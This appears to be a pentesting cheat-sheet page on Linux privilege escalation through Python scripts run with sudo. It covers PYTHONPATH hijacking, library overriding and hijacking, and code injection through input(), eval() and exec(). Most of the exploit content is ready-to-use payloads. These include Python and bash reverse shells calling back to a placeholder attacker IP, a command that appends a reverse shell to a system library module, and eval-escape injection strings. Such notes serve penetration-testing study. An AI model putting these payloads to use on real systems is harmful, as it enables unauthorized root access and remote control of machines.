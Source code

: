 # Python

## Theory 

Python scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, python scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice 

### PYTHONPATH Hijacking 

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights and SETENV,NOPASSWD.
```bash
sudo -l

        (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/example.py
```
With `SETENV`, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.

Fisrt, we can check what module is imported in the python script (e.g. /opt/scripts/example.py here).
```python
import random

print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can forge the imported module
```bash
$ cat /tmp/random.py

import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Then run the python script with updating PYTHONPATH in the remote machine.
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/scripts/example.py
```
{% hint style="info" %}
By setting `PYTHONPATH=/tmp/`, the python script will import modules from `/tmp/` directories so the "random" module is imported from /tmp/random.py.
{% endhint %}

{% endtab %}
{% endtabs %}


### Python Library Overriding

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If the Python script contains a **module that can be modified** by current user, we can inject arbitrary code into the module.
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Find writable python modules
```bash
$ find / -name "*.py" -writable 2>/dev/null

/usr/lib/python3.11/random.py
```

We can check if modules on which we have write access are imported by the script
```python
import random

print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can append our payload at the end the of the module
```bash
$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> /usr/lib/python3.11/random.py
```

Then run the python script with sudo
```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}


### Python Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If we can **write on the folder containing the script**, then python will prioritize the execution of this module instead of the usual path
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Check what modules are imported by the script
```python
import random

print(random.randint(1, 8))
```

Check write access
```bash
$ touch /opt/scripts/random.py
```
{% endtab %}

{% tab title="Exploit" %}
Write the malicious module on the same folder as the script
```bash
$ cat /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
```

Then run the python script with sudo
```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}


### OS Commands in input()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `input` function and if it's **python2.x**, the input() function is equivalent to `eval(raw_input)`. Then we can execute arbitrary code.
```bash
sudo -l

        (root): /usr/bin/python2.7 /opt/scripts/example.py
```

Check that the input command is used
```python
compute = input('\nYour expression? => ')
```
{% endtab %}

{% tab title="Exploit" %}
We can enter an OS commands in the input function
```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

Enter Your expression? => __import__('os').system('id')
#or
Enter Your expression? => __import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}


### OS Commands in Eval() and Exec()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `eval()` or `exec()` method, then it's vulnerable to arbitrary code execution.
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Check that one of this commands is used, examples:
```python
#With eval
eval(text)
eval(f"5 + {num}")
print ("Result =", eval(comp))

#With exec
code = input('What command(s) in python did you learn today?')
exec(code)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
```python
__import__('os').system('id')

#Bypass another expression in eval
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#

#Example of a ReverseShell
__import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### Format String Exploit

{% tabs %}
{% tab title="Enumerate" %}

{% endtab %}

{% tab title="Exploit" %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/" %}

{% embed url="https://mikadmin.fr/blog/linux-privilege-escalation-python-library-hijacking/" %}

{% embed url="https://www.stackhawk.com/blog/command-injection-python/" %}

{% embed url="https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/" %}
